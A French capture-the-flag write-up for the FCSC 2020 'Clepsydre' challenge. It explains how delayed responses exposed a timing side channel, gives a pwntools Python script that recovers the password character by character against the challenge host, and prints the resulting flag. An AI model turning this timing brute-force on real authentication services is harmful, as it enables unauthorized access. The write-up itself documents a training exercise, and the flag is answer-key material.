




# Clepsydre

Auteur: Ewaël

**Clepsydre** est un des challenges misc du FCSC 2020. Il valait 138 points à la fin du CTF.



Derrière son énoncé énigmatique, l'hôte distant attend simplement un mot de passe:



Ne sachant pas d'où partir, je commence par entrer les initiales de la citation... Et je réalise déjà un comportement étrange. En effet, la vérification n'est pas instantanée, contrairement à un test avec "admin" par exemple. Je réduis alors la chaine des initiales "Tvapaqsa" en enlevant une lettre à la fois pour voir à quel moment ce comportement est différent et je comprends que seule la première lettre "T" provoque ce délai. Après quelques recherches, je tombe sur cette résolution de challenge:

[https://tildeho.me/hack-around-the-clock-introduction-to-timing-attacks](https://tildeho.me/hack-around-the-clock-introduction-to-timing-attacks)

Je trouve que le cas de la *Time based attack* se prête particulièrement bien à la situation et j'essaie. Je code donc le script suivant qui teste les caractères de la chaine ```abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~``` en calculant à chaque fois le temps de réponse et qui isole, au fur et à mesure, ceux dont la vérification est plus longue:

```python
#!/usr/bin/env python3

import time
import string
from pwn import *

context.log_level = 'warn'
host = "challenges2.france-cybersecurity-challenge.fr"
port = 6006

dico = string.ascii_letters + string.digits + string.punctuation
print("[*] Dico is {}".format(dico))

passwd = ""
curr = 0

over = False

while not over:
    arr = []
    times = []

    for l in dico:
        trying = passwd + l
        print("[+] Trying {}".format(trying))
        r = remote(host, port)
        start = time.time()
        try:
            r.sendline(trying)
        except Exception:
            pass
        try:
            resp = r.recvuntil("incorrect !")
        except EOFError:
            print(resp)
            print(r.clean)
            over = True
            break
        end = time.time()
        times.append(end - start)
        arr.append("{} -> {} seconds".format(l, end - start))
        r.close()

    m = 0
    im = 0
    for i in range(len(times)):
        if times[i] > m:
            m = times[i]
            im = i

    oldcurr = curr
    curr += times[im]
    passwd += arr[im][0]
    print("[x] Pass is {} and current time is {} secs (+ {} secs)".
            format(passwd, str(curr)[:4], str(curr-oldcurr)[:4]))
```

Le temps affiché sert à vérifier que le script se déroule comme il faut et qu'une seconce est bien ajoutée à chaque nouvelle lettre considérée comme correcte. Je l'exécute, et voici le résultat:



Si je ne comprends pas vraiment l'origine de l'erreur, je teste tout de suite la chaine qui a causé cet arrêt du script, et elle fonctionne. Je récupère alors le flag:



`FCSC{6bdd5f185a5fda5ae37245d355f757eb0bbe888eea004cda16cf79b2c0d60d32}`
